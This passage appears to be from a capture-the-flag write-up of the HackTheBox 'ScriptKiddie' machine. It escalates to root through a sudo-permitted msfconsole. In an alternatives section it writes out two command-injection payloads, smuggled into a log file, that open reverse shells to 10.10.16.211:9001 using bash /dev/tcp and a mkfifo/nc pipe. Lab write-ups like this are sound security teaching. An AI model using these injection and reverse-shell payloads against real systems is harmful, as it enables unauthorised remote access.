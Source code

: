# Shell as pwn -> Root

The first things I checked were my groups and sudo permissions:

```bash
pwn@scriptkiddie:~$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

What do you know? In very on-brand fashion, we can run metasploit as root!

We *could* use this to run the apk exploit as root, but that's no fun - we've already used it twice.

Instead, we can use metasploit's in built shell to run commands. I ran `sudo msfconsole -q` (`-q` flag being optional) and then just typed `/bin/bash` to get a root shell :)

![[Pasted image 20210612161953.png]]

That's the box!

## Notes on Alternative Methods

An easier way of 'bypassing' the `cut` command (courtesy of ippsec) was just to match the correct format of the log file, by inserting three rows of arbitrary data before the command:

```bash
kid@scriptkiddie:~/logs$ echo 'whatever whatever ;/bin/bash -c "bash -i >& /dev/tcp/10.10.16.211/9001 0>&1"' >> hackers
```

This gives us another unstable shell that immediately dies:

![[Pasted image 20210612163258.png]]

A nice alternative payload (courtesy of a colleague) would have been:

```bash
kid@scriptkiddie:~/logs$ echo 'whatever whatever ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.211 9001 >/tmp/f' >> hackers
```

This gives us a shell that doesn't immediately die - but it doesn't send any commands either.

![[Pasted image 20210612163616.png]]

![[Pasted image 20210612163639.png]]

I'd be interested to see if there was a good way to get a stable shell this way. I'd also be interested to see if there was a good way of exploiting the command injection in the `searchsploit` field that partially worked early on, but I couldn't get it to work myself.